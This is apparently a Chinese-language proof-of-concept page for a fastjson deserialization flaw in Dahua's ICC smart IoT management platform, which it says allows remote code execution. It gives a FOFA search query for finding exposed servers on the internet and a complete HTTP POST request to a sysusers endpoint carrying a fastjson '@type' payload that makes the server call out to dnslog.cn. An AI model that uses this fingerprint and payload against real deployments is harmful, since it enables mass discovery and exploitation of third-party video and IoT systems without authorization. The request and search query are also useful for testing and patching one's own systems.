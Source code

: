 ## 大华ICC智能物联综合管理平台存在fastjson漏洞

大华ICC智能物联综合管理平台是专门为大华股份研发的一款物联网管理平台，它可以对多个智能设备和系统进行统一管理和控制，方便用户实时了解和管理各个设备和系统的状态。该平台提供了一系列的智能化功能，包括设备管理、监控预警、数据分析等，旨在为用户提供更加智能、高效和便捷的物联网管理体验，其使用了alibaba fastjson，存在反序列化漏洞导致RCE。

## fofa
```
body="*客户端会小于800*"
```

## poc
```
POST /evo-runs/v1.0/auths/sysusers/random HTTP/2
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Content-Type: application/json
Content-Length: 144

{
    "a":{
        "@type":"com.alibaba.fastjson.JSONObject",
        {"@type":"java.net.URL","val":"http://dnslog.cn"}
        }""
}
```
